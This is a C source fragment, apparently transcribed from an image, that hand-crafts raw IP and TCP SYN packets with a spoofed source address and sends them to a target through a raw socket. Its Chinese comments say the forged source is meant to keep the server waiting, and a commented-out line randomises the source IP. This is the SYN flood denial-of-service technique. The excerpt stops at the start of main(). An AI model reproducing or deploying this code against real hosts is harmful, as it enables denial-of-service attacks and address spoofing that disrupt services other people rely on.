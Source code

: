 ```
		ip=(struct ip*)buf;
		ip->ip_v = IPVERSION;
		ip->ip_hl = sizeof(struct ip)>>2;
		ip->ip_tos = 0;
		ip->ip_len = htons(ip_len);
		ip->ip_id = 0;
		ip->ip_off = 0;
		ip->ip_ttl = MAXTTL;
		ip->ip_p = IPPROTO_TCP;
		ip->ip_sum = 0;
		ip->ip_dst = target->sin_addr;

		//开始填充TCP首部
		tcp = (struct tcphdr*)(buf+sizeof(struct ip));
		tcp->source = htons(srcport);
		tcp->dest = target->sin_port;
		srand(time(NULL));
		tcp->doff = (sizeof(struct tcphdr) + op_len) >> 2; // tcphdr + option
		tcp->syn = 1;
		tcp->check = 0;
		tcp->window = ntohs(14600);

		int i = ip_len - op_len;
		// mss = 1460
		buf[i++] = 0x02;
		buf[i++] = 0x04;
		buf[i++] = 0x05;
		buf[i++] = 0xb4;
		// sack
		buf[i++] = 0x01;
		buf[i++] = 0x01;
		buf[i++] = 0x04;
		buf[i++] = 0x02;
		// wsscale = 7
		buf[i++] = 0x01;
		buf[i++] = 0x03;
		buf[i++] = 0x03;
		buf[i++] = 0x07;

		int T = 1;
		while(1) {
			if (T == 0) break;
			T--;
			tcp->seq = random();
			//源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
			//ip->ip_src.s_addr = random();
			//自定义源地址192.168.204.136 = 0xc0a8cc88; 反转赋值
			ip->ip_src.s_addr = 0x88cca8c0;
			unsigned sum = csum_tcpudp_nofold(ip->ip_src.s_addr, ip->ip_dst.s_addr, sizeof(struct tcphdr)+op_len, IPPROTO_TCP, 0);
			tcp->check = check_sum((unsigned short*)tcp, sizeof(struct tcphdr)+op_len, sum);
	//		ip->ip_sum = check_sum((unsigned short*)ip, sizeof(struct ip), 0);
			sendto(skfd, buf, ip_len, 0, (struct sockaddr*)target, sizeof(struct sockaddr_in));
		}
	}

	int main(int argc, char** argv)
	{
		int skfd;
		struct sockaddr_in target;
		struct hostent *host;
		const int on = 1;
		unsigned short srcport;
```